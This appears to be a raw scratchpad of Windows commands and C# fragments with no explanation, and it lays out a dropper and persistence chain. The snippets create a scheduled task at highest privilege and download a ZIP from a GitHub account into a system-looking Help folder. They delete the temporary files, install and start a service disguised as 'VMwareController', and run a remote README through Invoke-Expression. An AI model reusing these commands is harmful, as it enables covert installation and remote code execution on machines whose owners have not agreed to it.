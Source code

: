 "C:\Users\Administrator\Downloads\grouse-main\grouse-main\DesktopGoose v0.31\GooseDesktop.exe"

string createCmd = $"/Create /TN \"ShowMyApp\" /TR \"{exePath}\" " +
                   $"/SC ONCE /ST {startTime} /RL HIGHEST /F /RU \"{username}\"";
string createCmd = $"/Create /TN \"ShowMyApp\" /TR \"\\\"{exePath}\\\"\" /SC ONCE /ST {startTime} /RL HIGHEST /F /RU \"{username}\"";
C:\Windows\Help\Windows\IndexStore\en-US


# Set variables
$url = "https://github.com/burner-afk/Controller/archive/refs/heads/main.zip"      
$zipPath = "C:\temp\Controller-main.zip"
$extractPath = "C:\Windows\Help\Windows\IndexStore\en-US"



# Create directory for download and extraction
New-Item -ItemType Directory -Force -Path (Split-Path $zipPath)


# Download the ZIP file
Invoke-WebRequest -Uri $url -OutFile $zipPath

# Extract the ZIP file
Add-Type -AssemblyName System.IO.Compression.FileSystem
[System.IO.Compression.ZipFile]::ExtractToDirectory($zipPath, $extractPath)

Remove-Item "C:\temp" -Recurse -Force

C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe "C:\Windows\Help\Windows\IndexStore\en-US\Controller-main\bin\Debug\VMwareController.exe"

Start-Service VMwareController


Invoke-Expression (Invoke-WebRequest -Uri "https://raw.githubusercontent.com/burner-afk/Controller/refs/heads/main/README.md").Content
